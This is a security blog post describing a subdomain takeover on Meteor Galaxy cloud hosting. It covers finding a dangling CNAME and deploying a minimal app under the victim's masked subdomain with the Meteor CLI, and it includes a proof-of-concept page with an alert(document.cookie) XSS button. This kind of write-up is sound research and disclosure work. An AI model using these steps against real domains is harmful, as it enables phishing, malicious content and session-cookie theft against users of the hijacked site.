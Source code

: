 ```yaml
---
layout: post
title:  "Meteor cloud subdomain takeover"
date:   2022-12-02 17:28:10 +0500
categories: blog
---
```

While scanning my automation system found subdomain whose cname record pointed to **eu-west-1.galaxy-ingress.meteor.com** with a 404 response code.

```404 Not Found: No applications registered for host '***.*****.***'.```

![meteor response](/assets/meteor/response.png)

It's looks like subdomain takeover is possible here :)

[www.meteor.com](https://www.meteor.com/) says that

```Meteor is an open source platform for seamlessly building and deploying Web, Mobile, and Desktop applications in Javascript.```

After registering an account is necessary to add payment method under settings → billing,  because custom subdomain can be used only with non free application instances.

![meteor biling](/assets/meteor/billing.png)

Most simple way to deploy your application to meteor cloud is to use meteor cli tool [https://docs.meteor.com/install.html](https://docs.meteor.com/install.html)

After installing, we can create new meteor application, I advise to use minimal template, because only minimal template doesn't have mongodb dependency:

{% highlight bash %}
rival@meteor-takeover % meteor create --minimal .
Created a new Meteor app in current directory.

To run your new app:                          
  meteor                                      
                                              
If you are new to Meteor, try some of the learning resources here:
  https://www.meteor.com/tutorials            
                                              
When you’re ready to deploy and host your new Meteor application, check out Cloud:
  https://www.meteor.com/cloud                
                                              
To start with a different app template, try one of the following:
...
{% endhighlight %}

Meteor will create all the necessary files for us.

The files located in the client directory are setting up your client side (web), you can see for example **client/main.html** where we can change html to something more appropriate, like this with xss payload:

{% highlight html %}
<head>
  <title>Rivalsec meteor takeover</title>
</head>
<body>
  <h1>Rivalsec meteor takeover </h1>
  <p>
    if the subdomain takeover is successful, a wide variety of attacks are possible (serving malicious content, phishing, stealing user session cookies, credentials, etc.).
  </p>
  <button onclick="alert(document.cookie);">Click me for XSS</button>
</body>
{% endhighlight %}

![meteor biling](/assets/meteor/appfiles.png)

Now we can login and deploy our app:

**DEPLOY_HOSTNAME** must be same as subdomains cname

{% highlight raw %}
rival@meteor-takeover % meteor login                                                                                            
Username: rivalsec
Password:                                     
                                              
Logged in as rivalsec. Thanks for being a Meteor developer!

rival@meteor-takeover % DEPLOY_HOSTNAME=eu-west-1.galaxy.meteor.com meteor deploy ***.*****.***
Talking to Galaxy servers at https://eu-west-1.galaxy.meteor.com
Preparing to build your app...                
Browserslist: caniuse-lite is outdated. Please run:
  npx browserslist@latest --update-db
  Why you should do it regularly: https://github.com/browserslist/browserslist#browsers-data-updating
Preparing to upload your app...               
Uploaded app bundle for new app at ***.*****.***.
Galaxy is building the app into a native image.
Waiting for deployment updates from Galaxy... 
Building app image...                         
Deploying app...                              
You have successfully deployed the first version of your app.
For details, visit https://eu-west-1.galaxy.meteor.com/app/***.*****.***
{% endhighlight %}


Meteor will deploy application and receive new https certificate for our subdomain.

![meteor biling](/assets/meteor/succes.png)

